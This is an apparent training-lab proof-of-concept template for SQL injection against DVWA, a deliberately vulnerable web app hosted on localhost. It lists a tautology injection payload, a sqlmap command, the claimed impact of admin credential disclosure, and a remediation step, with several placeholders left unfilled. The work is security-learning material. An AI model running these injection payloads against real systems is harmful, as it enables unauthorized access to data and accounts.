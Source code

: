 # Vulnerability PoC — DVWA SQLi

**Target:** http://localhost:8000/dvwa/  
**Date:** YYYY-MM-DD  
**Author:** Job Kinara — https://github.com/Ranks123

## 1) Summary
SQL Injection in `<parameter/cookie>` allowing data extraction (admin password).

## 2) Reproduction / PoC
- Manual example payload (adjust as needed):


http://127.0.0.1:8000/dvwa/vulnerabilities/sqli/?id=1

' OR '1'='1' --

- sqlmap example:

python3 ~/sqlmap/sqlmap.py -u "http://127.0.0.1:8000/dvwa/vulnerabilities/sqli/?id=1

" --batch


## 3) Impact
Admin credentials disclosure → account takeover.

## 4) Remediation
Use parameterized queries / prepared statements.

## 5) Artifacts
- screenshots/dvwa-poc.png
- demo.mp4
